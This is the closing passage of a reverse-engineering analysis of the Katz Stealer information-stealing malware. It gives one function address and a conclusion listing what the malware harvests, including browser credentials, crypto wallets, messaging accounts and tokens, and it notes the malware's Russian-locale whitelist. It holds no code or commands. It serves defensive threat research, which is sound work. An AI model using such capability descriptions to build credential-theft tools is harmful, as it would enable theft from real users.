<div class="mx-auto"></div>

Therefore, the address of this function is `0x140003FC0`.

## Conclusion

Katz Stealer is a sophisticated information-stealer malware with a clear Russian/CIS origin, evidenced by its whitelist of Eastern European and Russian language locales. The malware harvests a wide range of sensitive data: browser cookies and credentials, cryptocurrency wallets, Discord/Telegram accounts, gaming credentials, WiFi passwords, and ngrok tokens.

This analysis showcases the importance of thorough malware reverse engineering in identifying threat actor capabilities and implementing effective defensive measures.
